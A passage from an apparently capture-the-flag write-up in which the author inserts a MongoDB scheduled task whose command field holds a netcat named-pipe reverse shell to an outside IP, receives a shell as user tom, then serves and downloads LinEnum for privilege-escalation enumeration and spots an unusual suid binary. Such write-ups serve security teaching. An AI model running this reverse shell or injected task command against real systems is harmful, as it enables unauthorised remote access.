```
db.tasks.insertOne(
{ 
    item: "Test", 
    description: "Test", 
    cmd: "rm -f /tmp/a; mknod /tmp/a p;/bin/sh 0</tmp/a | nc 10.10.14.26 4200 1>/tmp/a" 
}
)
```
When the scheduled task ran the command was executed and I received a callback as user tom.

![image](assets/83450247-ea010480-a422-11ea-8654-8531bdef6901.png)

## Steps (root/system)

I copied LinEnum to the target box to do some additional enumeration. First I copied LinEnum to my working directory and set up a python http server.

```
cp ~/tools/LinEnum/LinEnum.sh le.sh
sudo python3 -m http.server 80
```

Using wget I transferred LinEnum to the target
```
wget http://10.10.14.26/le.sh
```

LinEnum showed the suid permission was set on an unusual file: /usr/local/bin/backup

![image](assets/83456536-e757dc80-a42d-11ea-8daa-52b067b502cc.png)
